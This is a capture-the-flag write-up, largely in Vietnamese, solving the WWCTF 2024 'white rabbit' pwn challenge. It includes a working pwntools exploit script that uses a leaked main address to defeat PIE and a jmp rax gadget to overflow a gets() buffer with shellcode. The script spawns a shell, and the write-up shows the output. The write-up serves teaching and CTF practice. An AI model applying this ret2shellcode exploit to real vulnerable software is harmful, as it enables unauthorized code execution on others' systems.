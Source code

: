 # WWCTF 2024 - white rabbit

Let's take a look at a binary:

```
File:     /home/kali/CTF/wwCTF/whiteRabbit/white_rabbit
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
Debuginfo:  Yes
```

Chúng ta thấy rằng chỉ có mỗi PIE được bật, NX unknown nên có thể bài này sẽ liên quan đến ret2shell. Dissambler nó ra dùng Ghidra thôi nào.

```
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("\n  (\\_/)");
  puts(&DAT_0010200d);
  printf("  / > %p\n\n",main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}

```

Hàm main cho ta địa chỉ của main dùng printf, 1 điều khá thú vị khi ta có thể dùng nó để leak ra binary base. Từ binary base sẽ biết được địa chỉ thực tế của các hàm khác
bởi vì khi PIE được bật, các địa chỉ trong file binary sẽ được random, dẫn đến mỗi lần chạy lại thì sẽ có 1 địa chỉ khác nhau. Tuy nhiên, offset của tụi nó so với binary base thì vẫn giống nhau, cách khai thác PIE thường là dựa vào info leak từ 1 hàm và từ đó suy ra binary base. Đề bài
ở đây khá tốt bụng khi đã cung cấp địa chỉ hàm `main` giúp chúng ta. Oke và ta thấy hàm main kêu chúng ta follow 1 con thỏ trắng nào đó!?, follow thôi nào.

```

void follow(void)

{
  char buffer [112];

  gets(buffer);
  return;
}

```

Và, 1 lỗ hổng khá hiển nhiên xảy ra ở hàm `follow` này. Lỗ hổng Stack Buffer Overflow, khi char buffer chỉ chứa được `112` bytes, trong khi chương trình lại sử dụng `gets` để cho ta nhập input cho
buffer, với gets, ta sẽ có thể nhập vào số bytes tuỳ thích, chỉ cần ta ghi đè được địa chỉ trả về buffer với 1 địa chỉ ta kiểm soát là xong bài toán. Địa chỉ trả về ta muốn ghi đè này sẽ chứa `shellcode` mà mình đặt. Vậy
thì khai thác thôi nào

# EXPLOITATION

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined follow()
             undefined         AL:1           <RETURN>
             undefined1[112]   Stack[-0x78]   buffer                                  XREF[1]:     00101171(*)
                             follow                                          XREF[4]:     Entry Point(*), main:0010122e(c),
                                                                                          0010205c, 001020d0(*)
        00101169 55              PUSH       RBP

```

Ta thấy rằng từ buffer ta nhập vào đến return address thì cần `0x78` bytes, ta chỉ cần đẩy vào `0x78` bytes padding là sẽ tới được địa chỉ trả về, nhưng trả về cái gì đây... Cứ thử trước đã:
Nhập vào 0x78 byte padding, breakpoint tại `ret` của hàm `follow` và xem trên `gdb.attach` xem các giá trị thanh ghi nhé:

```

Breakpoint 1, 0x0000560e5f5ce17f in follow () at warmup.c:11
warning: 11     warmup.c: No such file or directory
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────
*RAX  0x7ffd883884a0 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
*RBX  0x7ffd88388638 —▸ 0x7ffd88389ed7 ◂— './white_rabbit'
*RCX  0x7fd4029ff8e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
*RDX  0
*RDI  0x7fd402a01720 (_IO_stdfile_0_lock) ◂— 0
 RSI  0x7fd4029ff963 (_IO_2_1_stdin_+131) ◂— 0xa01720000000000a /* '\n' */
*R8   0
*R9   0
 R10  3
 R11  0x246
*R12  0
*R13  0x7ffd88388648 —▸ 0x7ffd88389ee6 ◂— 'POWERSHELL_TELEMETRY_OPTOUT=1'
 R14  0x7fd402a5d000 (_rtld_global) —▸ 0x7fd402a5e2e0 —▸ 0x560e5f5cd000 ◂— 0x10102464c457f
 R15  0x560e5f5d0dd8 —▸ 0x560e5f5ce110 ◂— endbr64
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7ffd88388518 —▸ 0x560e5f5ce200 (main+128) ◂— 0x8d48c68948ffffff
*RIP  0x560e5f5ce17f (follow+22) ◂— ret
──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
 ► 0x560e5f5ce17f <follow+22>    ret                                <main+128>
    ↓







```

Cái chuỗi padding tôi nhập vào là 120 kí tự A, và nhìn xem, những kí tự đó đã vào trong thanh ghi `RAX`, vậy có nghĩa là nếu chúng ta có thể nhảy về `RAX` thì ta có thể đặt shellcode tại đó -> chương trình
thực hiện đoạn shellcode là xong. Vậy ý tưởng ban đầu là ta cần tìm 1 cái gadget liên quan đến `call rax` hoặc `jump rax`, sử dụng ROPgadget để tìm nào.

```
0x00000000000010bf : jmp rax
```

Ta đã tìm được nó, nhưng cái này chỉ là offset, đó là lý do ta cần phải có được binary base, rồi lấy `binary base + offset` thì ra địa chỉ thực tế của nó.

```

  (\_/)
  ( •_•)
  / > 0x555555555180

follow the white rabbit...

```

Nhưng trước hết ta cần lấy được địa chỉ main và lưu nó vào 1 biến đã, vì từ đó mới có binary base và leak được cái gadget kia. Tiếp theo, ta chuẩn bị shellcode thôi. Trong thư viện
`pwntools` có lệnh shellcraft.sh() để tạo nên shellcode, tôi đã dùng nó

```
shellcode = shellcraft.sh()
```

Mọi thứ đã chuẩn bị xong, giờ thì thử viết script và chạy thôii

```
from pwn import *


p = process('./white_rabbit')
e = ELF('./white_rabbit')
context.arch='amd64'
# gdb.attach(p, api=True)

shellcode = asm(shellcraft.sh())



p.recvuntil(b'> ')
main = int(p.recvn(14), 16)
base_binary = main - e.sym['main']
info("BASE BINARY: %#x", base_binary)
jump_rax = base_binary + 0x00000000000010bf

# payload = sub_rsp
payload =  shellcode
payload += b'A' * (120 - len(shellcode))
payload += p64(jump_rax)
p.recvuntil(b'follow the white rabbit...\n')
p.sendline(payload)

p.interactive()
```

Ta đặt shellcode ngay đầu `rax`, để khi nhảy lại tới `rax` thì sẽ thực thi luôn shellcode. Vậy là ta đã có được shell.

```
[*] BASE BINARY: 0x56325b5bc000
[*] Switching to interactive mode
$ cat flag.txt
ZAWARUDO$
```

